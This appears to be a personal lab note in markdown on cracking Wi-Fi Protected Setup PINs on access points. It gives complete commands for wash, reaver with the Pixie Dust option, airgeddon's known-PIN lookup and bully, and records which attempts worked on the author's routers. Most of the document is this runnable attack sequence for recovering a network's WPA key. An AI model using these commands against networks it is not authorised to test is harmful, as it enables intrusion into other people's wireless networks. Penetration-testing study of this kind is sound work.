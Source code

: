# WPS

* Run [setup](../../setup.md) first
* Two terminals are needed
* AP must have WPS enabled using PIN here
    * For sake of time, just use `01235678`
    * This is the third guess and the guesses are not random
* WPS version 1.0 (brute force)
* If WPS is `Lck==Yes`, then an attack is not possible

Wash is an auxiliary tool designed to display WPS enabled Access Points and their main characteristics. Wash is included in the Reaver package.

Reaver performs a brute force attack against an access point's WiFi Protected Setup pin number. Once the WPS pin is found, the WPA PSK can be recovered and alternately the AP's wireless settings can be reconfigured

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Scan for APs with WPS -
sudo wash -i $INTERFACE

# Stop the scan
ctrl+c

# Wait until INTERFACE appears with BSSID
sudo reaver -b $BSSID -i $INTERFACE -v

# THIS TAKES FOREVER AND EVEN IF PIN IS SET TO FIRST GUESS
# DOES NOT WORK :( ON FRONTIER ROUTER ... WHICH IS WPS V1.0

# Try with the PixieWPS option (FAST)
sudo reaver -b $BSSID -i $INTERFACE -v -K
```
* Worked quite fast on WPS v2.0 router, not at all on WPS v1.0 router

![success](../../images/wps-pixiewps.png)

## Airgeddon / Reaver / Bully

[Enable Network Manager](../../teardown.md)

```bash
sudo systemctl start NetworkManager
sudo apt install airgeddon -y
source /usr/share/airgeddon/known_pins.db
sudo airmon-ng check kill

# Some APs don't have a PIN ... used as blank
# See if we can find a match first six HEX of AP MAC BSSID
# Case-sensitive ... if pins are returned then try them
# For example
echo ${PINDB["0013F7"]}

14755989 48703970 06017637

# Then try each one
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 14755989
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 48703970
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 06017637
```

## Bully

* Did not work

```bash
sudo bully -b $BSSID -c $CHANNEL -d -v 4  $INTERFACE
```

## References

* [Wi-Fi Protected Setup](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)
* [Reaver GitHub](https://github.com/t6x/reaver-wps-fork-t6x)
* [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)